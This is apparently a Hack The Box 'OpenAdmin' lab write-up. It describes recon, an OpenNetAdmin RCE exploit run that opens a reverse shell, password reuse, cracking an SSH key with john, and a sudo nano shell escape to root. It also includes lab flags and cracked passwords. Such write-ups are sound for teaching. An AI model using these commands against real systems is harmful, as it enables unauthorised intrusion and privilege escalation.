









# Hack The Box - OpenAdmin | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** Machine (Linux) &nbsp;•&nbsp; **Difficulty:** Easy
>
> **Target:** `10.129.65.90` &nbsp;•&nbsp; **Time taken:** 50 minutes
>
> **Author:** Jithin Jelson

---

## Introduction

We will be trying to exploit OpenAdmin, it is an easy level Linux box.

---

## Assessment Overview

```mermaid
flowchart LR
    A["Recon<br/>nmap -sVC"]:::entry --> B["SSH 22<br/>OpenSSH 7.6p1"]:::ioc
    A --> C["HTTP 80<br/>Apache 2.4.29"]:::ioc

    C --> D["Feroxbuster<br/>/music /artwork /sierra"]:::ioc
    D --> E["/music login<br/>redirects to /ona"]:::intel
    E --> F{"OpenNetAdmin<br/>v18.1.1"}:::intel

    F --> G["CVE-2019-25065<br/>Unauth RCE"]:::mitre
    G --> H["exploit.sh<br/>reverse shell"]:::payload
    H --> I{"Foothold<br/>www-data"}:::user

    I --> J["config.php<br/>db_passwd leak"]:::intel
    I --> K["/home enum<br/>jimmy, joanna"]:::intel
    J --> L["SSH as jimmy<br/>reused DB password"]:::user
    K --> L

    L --> M["Internal port<br/>curl -> SSH key"]:::intel
    M --> N["ssh2john + rockyou<br/>passphrase bloodninjas"]:::payload
    N --> O{"SSH as joanna"}:::user

    O --> P["user.txt"]:::user
    O --> Q["sudo -l<br/>nano as root"]:::mitre
    Q --> R["Ctrl+R then Ctrl+X<br/>reset; sh 1>&0 2>&0"]:::payload
    R --> S{"root.txt"}:::user

    classDef entry fill:#1d4ed8,stroke:#1e3a8a,color:#ffffff;
    classDef ioc fill:#0f766e,stroke:#134e4a,color:#ffffff;
    classDef intel fill:#7c3aed,stroke:#5b21b6,color:#ffffff;
    classDef mitre fill:#b45309,stroke:#78350f,color:#ffffff;
    classDef payload fill:#be123c,stroke:#881337,color:#ffffff;
    classDef user fill:#15803d,stroke:#14532d,color:#ffffff;
    linkStyle default stroke-width:2px
```



---

## What I Learned

- How ssh2john can turn an encrypted SSH private key into a hash that john cracks against rockyou, revealing the key's passphrase.
- The privilege escalation worked because joanna could run `/bin/nano` with sudo as root. Inside nano, pressing Ctrl+R opens the "Read File" prompt, and then pressing Ctrl+X on that prompt flips it into "Execute Command" mode, so typing `reset; sh 1>&0 2>&0` spawns a shell. Because nano itself is running as root through sudo, the shell it spawns inherits that root privilege.

---

## Recon

We can start off with an nmap scan to find service versions and run default scripts on our open ports.

```
nmap -sVC -vvv --min-rate 10000 10.129.65.90
```



*Figure 1 - nmap output showing SSH on 22 (OpenSSH 7.6p1 Ubuntu) and HTTP on 80 (Apache 2.4.29) with the default Apache page in the browser*

---

## Web Enumeration

We can see there is an SSH port and web server which we can look into further, as we can only see the Apache2 Ubuntu default page. After we run feroxbuster we come across 3 webpages: artwork, music and sierra.



*Figure 2 - feroxbuster findings for /music, /artwork and /sierra, with the Sierra blog page open on the right*

After a lot of enumeration we came across a login page in music which redirected to OpenNetAdmin.



*Figure 3 - OpenNetAdmin dashboard at `/ona`, with the "Newer Version Available" panel confirming the running version is v18.1.1*

---

## Foothold via CVE-2019-25065

Upon a quick Google search we can see that it is vulnerable to RCE, so we can try and see an exploit to see if we can exploit it manually. However, after a while of trying to do it manually it was too complex so we used the exploit and we got a reverse shell. The exploit was CVE-2019-25065 which gave us RCE.

```
bash exploit.sh -u http://10.129.65.90/ona/ --lhost 10.10.15.110 --lport 4444
nc -nlvp 4444
```



*Figure 4 - Running the CVE-2019-25065 exploit against `/ona/`, catching the callback on nc listener 4444 and getting `whoami` returning `www-data`*

---

## Lateral Movement to Jimmy

We then went to local and we saw a `config.php` which gave us an SQL password of `n1nj4W4rri0R!`. And when we tried to SSH with joanna and jimmy, the users we found in home, we were successfully able to log in as jimmy.

```
cat /opt/ona/www/local/config/database_settings.inc.php
ssh jimmy@10.129.65.90
```



*Figure 5 - `database_settings.inc.php` showing `db_passwd => 'n1nj4W4rri0R!'`, with a successful SSH login as `jimmy@openadmin` on the right*

---

## Lateral Movement to Joanna

Upon further enumerating we see an unusual port that is open, and when we curled it we received an SSH key for joanna and a note that says to put in the ninja password. However it was not the same password as earlier, so when we used ssh2john on the SSH key we got the password `bloodninjas`.

```
ssh2john ssh.key > openadmin.ssh
john --wordlist=/usr/share/wordlists/rockyou.txt openadmin.ssh
```



*Figure 6 - `ssh2john ssh.key` producing the `$sshng$1$...` hash, with the first john attempt failing because the wordlist path was wrong*



*Figure 7 - john re-run with the correct `/usr/share/wordlists/rockyou.txt` path, cracking the SSH key passphrase as `bloodninjas`*

```
chmod 600 ssh.key
ssh -i ssh.key joanna@10.129.65.90
```



*Figure 8 - SSH'd in as joanna, reading `user.txt`*

**Answer:** `6df6af225b267875f2d243d63c964b08`

---

## Privilege Escalation to Root

To get to root it seems is fairly easy, we just have to do `sudo -l` and we can edit a file as root, so we can privilege escalate from there.

```
sudo -l
# (joanna) NOPASSWD: /bin/nano /opt/priv
sudo /bin/nano /opt/priv
```

Inside nano:

1. Press **Ctrl+R** (Read File prompt)
2. Press **Ctrl+X** (flips the prompt into "Execute Command" mode)
3. Enter:

```
reset; sh 1>&0 2>&0
```



*Figure 9 - The nano "Command to execute" prompt running `reset; sh 1>&0 2>&0`, dropping into a root shell where `whoami` returns `root` and `cat root.txt` prints the flag*

**Answer:** `d5790dd76f028e53a986dc4ef16a8098`
